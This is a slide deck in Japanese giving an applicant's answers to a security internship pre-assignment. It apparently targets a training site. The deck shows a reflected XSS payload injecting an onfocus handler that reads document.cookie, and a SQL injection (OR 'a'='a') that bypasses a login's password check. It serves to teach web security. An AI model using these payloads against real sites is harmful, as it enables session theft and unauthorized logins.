




# VOYAGE GROUP 1day Intern

## Answer for Pre Assignment

Tamrin007(Shun Tamura)

#HSLIDE

## Q1. XSS

#VSLIDE

ユーザ名にスペースを含めて送信すると、  
スペース以降の文字が `input` タグの  
属性として埋め込まれる

#VSLIDE

### Answer

- 入力



- 入力を送信後の `input` タグ

```html
<input id="username" type="text" name="username"
 value="hoge" onfocus="alert(document.cookie);">
```

#VSLIDE

### Result



#HSLIDE

## Q2. SQL Injection

適当な文字をユーザ名として入力すると、  
フレームワークのエラー画面が現れ、  
どのようにユーザ入力から SQL を  
組み立てているか分かる



#VSLIDE

- パスワードはハッシュ化して組み立てているのでどうにもできなさそう
- 入力文字列は `'` で囲われる
- `WHERE` 句の `AND 'password'` を無効化したい

#VSLIDE

### Answer

- 入力


- 生成される SQL

```sql
SELECT u.id FROM example_user u
WHERE username = 'co3k'
OR 'a'='a' AND password = 'hash' LIMIT 1;
```

#VSLIDE

### Result


